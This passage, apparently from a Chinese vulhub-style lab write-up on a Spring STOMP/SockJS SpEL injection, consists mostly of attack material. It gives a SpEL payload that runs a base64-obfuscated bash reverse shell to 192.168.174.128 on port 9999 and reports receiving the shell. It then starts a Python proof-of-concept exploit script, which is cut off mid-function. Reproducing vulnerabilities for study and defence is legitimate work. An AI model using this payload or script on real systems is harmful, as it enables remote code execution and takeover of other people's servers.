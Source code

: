 ![image-20220301151446972](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011514030.png)

尝试反弹shell，构造命令：

```
T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}'
```

监听9999端口，成功接收反弹shell：

![image-20220301151607291](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011516380.png)

## 漏洞POC

```python
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)
    
    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
        
        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
```